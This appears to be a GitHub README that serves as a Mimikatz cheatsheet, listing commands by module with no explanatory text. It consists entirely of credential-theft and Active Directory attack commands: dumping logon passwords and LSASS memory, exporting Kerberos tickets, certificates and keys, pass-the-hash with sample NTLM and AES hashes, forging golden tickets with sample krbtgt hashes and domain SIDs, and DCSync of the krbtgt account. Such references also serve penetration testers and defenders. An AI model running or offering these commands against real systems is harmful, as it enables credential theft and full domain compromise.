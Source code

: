 # Mimikatz-cheatsheet
Mimikatz cheatsheet

<p><br />#general<br />privilege::debug<br />log<br />log customlogfilename.log</p>
<p><br />#sekurlsa<br />sekurlsa::logonpasswords<br />sekurlsa::logonPasswords full<br />sekurlsa::tickets /export<br />sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd</p>
<p>#kerberos<br />kerberos::list /export<br />kerberos::ptt c:\chocolate.kirbi<br />kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi</p>
<p>#crypto<br />crypto::capi<br />crypto::cng<br />crypto::certificates /export<br />crypto::certificates /export /systemstore:CERT_SYSTEM_STORE_LOCAL_MACHINE<br />crypto::keys /export<br />crypto::keys /machine /export</p>
<p>#vault &amp; lsadump<br />vault::cred<br />vault::list<br />token::elevate<br />vault::cred<br />vault::list<br />lsadump::sam<br />lsadump::secrets<br />lsadump::cache<br />token::revert<br />lsadump::dcsync /user:domain\krbtgt /domain:lab.local</p>
<p>#pth<br />sekurlsa::pth /user:Administrateur /domain:chocolate.local /ntlm:cc36cf7a8514893efccd332446158b1a<br />sekurlsa::pth /user:Administrateur /domain:chocolate.local /aes256:b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9<br />sekurlsa::pth /user:Administrateur /domain:chocolate.local /ntlm:cc36cf7a8514893efccd332446158b1a /aes256:b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9<br />sekurlsa::pth /user:Administrator /domain:WOSHUB /ntlm:{NTLM_hash} /run:cmd.exe</p>
<p>#ekeys<br />sekurlsa::ekeys</p>
<p>#dpapi<br />sekurlsa::dpapi</p>
<p>#minidump<br />sekurlsa::minidump lsass.dmp</p>
<p>#ptt<br />kerberos::ptt Administrateur@krbtgt-CHOCOLATE.LOCAL.kirbi</p>
<p>#golden/silver<br />kerberos::golden /user:utilisateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /id:1107 /groups:513 /ticket:utilisateur.chocolate.kirbi<br />kerberos::golden /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /aes256:15540cac73e94028231ef86631bc47bd5c827847ade468d6f6f739eb00c68e42 /user:Administrateur /id:500 /groups:513,512,520,518,519 /ptt /startoffset:-10 /endin:600 /renewmax:10080<br />kerberos::golden /admin:Administrator /domain:CTU.DOMAIN /sid:S-1-1-12-123456789-1234567890-123456789 /krbtgt:deadbeefboobbabe003133700009999 /ticket:Administrator.kiribi</p>
<p>#tgt<br />kerberos::tgt</p>
<p>#purge<br />kerberos::purge</p>

